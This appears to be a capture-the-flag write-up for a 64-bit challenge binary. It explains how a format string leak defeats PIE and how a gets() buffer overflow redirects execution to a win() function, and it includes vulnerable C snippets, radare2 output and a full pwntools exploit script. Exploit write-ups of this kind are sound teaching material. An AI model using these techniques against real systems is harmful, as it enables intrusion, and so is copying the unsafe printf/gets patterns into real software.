# Exploit Writeup: vuln-64

## Challenge Overview

**Binary Name:** `vuln-64`
**Architecture:** 64-bit ELF  
**Protections:**  
- NX: Enabled  
- PIE: Enabled  
- Stack Canaries: Not Present  
- RELRO: Partial  

The binary asks for your name and prints it using `printf()`, making it vulnerable to a **format string vulnerability**. Later, it takes a message input with `gets()`, leading to a **buffer overflow**.

---

## Vulnerability Analysis

### 1. Format String Leak

The input to `name?` is passed directly into `printf()` without format sanitization:

```c
char name[32];
puts("What's your name?");
gets(name);
printf("Nice to meet you ");
printf(name);
````

This allows us to leak addresses on the stack using `%p`. Specifically, `%15$p` leaks the return address to `main()` which helps bypass PIE.


### 2. Buffer Overflow

The message is read again using `gets()`:

```c
puts("What's your message?");
gets(buffer);
```

Since there’s no bounds checking, we can overflow the buffer and control the return address to redirect execution to `win()`.

---

## 🛠 Exploitation Steps

### Step 1: Leak `main()` address to defeat PIE

We send `%15$p` as the name to leak the return address pointing into `main()`:

```python
p.sendline('%15$p')
leak = int(p.recvline().strip(), 16)
```

![leaked main](./img/leakedmain.png)

### Step 2: Calculate PIE base address

Using symbols from `rabin2` or `ELF()` from pwntools, we find:

```bash
$ rabin2 -s ./vuln-64 | grep main
65  0x000011d6 0x000011d6 GLOBAL FUNC   21       main
```

So PIE base = leaked address - 0x11d6.

```python
elf.address = leak - elf.symbols['main']
```

### Step 3: Overflow buffer and call `win()`

Find offset using raag2:

```bash
$ ragg2 -P 100 -r
AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAh
```

first we need to find the position of return addreess on the stack 

```bash
[0x7071a6c1f5c0]> s main; pdf
            ; DATA XREF from entry0 @ 0x5ca75319909d(r)
┌ 21: int main (int argc, char **argv, char **envp);
│           0x5ca7531991d6      55             push rbp
│           0x5ca7531991d7      4889e5         mov rbp, rsp
│           0x5ca7531991da      b800000000     mov eax, 0
│           0x5ca7531991df      e881ffffff     call sym.vuln
│           0x5ca7531991e4      b800000000     mov eax, 0
│           0x5ca7531991e9      5d             pop rbp
└           0x5ca7531991ea      c3             ret
[0x5ca7531991d6]>
```

we need to find the value `0x5ca7531991e4` on the stack

```bash
[0x5ca7531991d3]> pxq @ rsp
```

![stack main addr](./img/mainaddr.png)

---

<br>

![offset](./img/ragg2-offset.png)


boom we get the offset

Then, build the payload:

```python
payload = b'A' * 40
payload += p64(elf.symbols['win'])
```

---

## 💥 Final Exploit

```python
from pwn import *

context.binary = elf = ELF('./vuln-64')
context.log_level = 'debug'
p = process()

# Step 1: Leak address of main()
p.recvuntil('name?\n')
p.sendline('%15$p')

p.recvuntil('you ')
leak = p.recvline().strip()
elf_leak = int(leak, 16)
log.success(f"Leaked address of main(): {hex(elf_leak)}")

# Step 2: Calculate PIE base
elf.address = elf_leak - elf.symbols['main']
log.success(f"PIE base address: {hex(elf.address)}")

# Step 3: Build payload to call win()
payload = b'A' * 40
payload += p64(elf.sym['win'])

# Step 4: Send payload
p.recvuntil('message?\n')
p.sendline(payload)

# Step 5: Output result
print(p.clean().decode(errors='ignore'))

```

---

## ✅ Conclusion

This challenge combines **format string** for address leak and **buffer overflow** for control of execution. By leaking PIE base and overwriting return address, we redirect execution to `win()`.

---

## 🔧 Tools Used

* [pwntools](https://docs.pwntools.com)
* [r2 / rabin2](https://rada.re/n/)


---

## 📌 Notes

* `%15$p` worked because in 64-bit, the first few arguments are passed in registers. from 1-6
* `gets()` should never be used in real code due to its lack of bounds checking.



